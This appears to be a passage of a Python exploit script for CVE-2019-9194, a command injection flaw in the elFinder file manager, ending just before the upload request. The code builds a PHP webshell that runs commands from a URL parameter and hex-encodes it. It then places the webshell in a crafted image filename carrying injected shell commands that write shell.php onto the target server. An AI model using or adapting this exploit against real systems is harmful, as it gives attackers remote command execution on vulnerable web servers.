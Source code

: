 ```python
#!/usr/bin/env python3
"""
CVE-2019-9194 elFinder Command Injection Exploit
Author: Alejandro Parodi
"""

import requests
import sys
import re
import json
from urllib.parse import urljoin

class ElFinderExploit:
    def __init__(self, target_url):
        self.target_url = target_url.rstrip('/')
        self.session = requests.Session()
        self.webshell_name = "shell.php"
        
    def banner(self):
        print("""
╔══════════════════════════════════════════╗
║        CVE-2019-9194 elFinder Exploit    ║
║           Command Injection              ║
║                                          ║
║           By: Alejandro Parodi           ║
╚══════════════════════════════════════════╝
        """)
    
    def create_malicious_image(self):
        """Create a malicious JPEG file with command injection payload"""
        # Simple JPEG header
        jpeg_header = b'\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x01\x00H\x00H\x00\x00\xff\xdb\x00C\x00'
        jpeg_data = jpeg_header + b'\x00' * 100 + b'\xff\xd9'
        return jpeg_data
    
    def exploit(self):
        """Main exploitation function"""
        print("[+] Starting exploitation...")
        
        # Create webshell payload
        webshell_content = """<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
} else {
    echo "WebShell - CVE-2019-9194<br>";
    echo "Usage: ?cmd=command";
}
?>"""
        
        # Encode webshell content in hex for payload
        webshell_hex = webshell_content.encode().hex()
        
        # Create malicious filename with command injection
        malicious_filename = f"test.jpeg;echo {webshell_hex}|xxd -p -r>{self.webshell_name};echo rce.jpeg"
        
        print(f"[+] Creating malicious payload: {malicious_filename}")
        
        try:
            # Upload malicious file
```
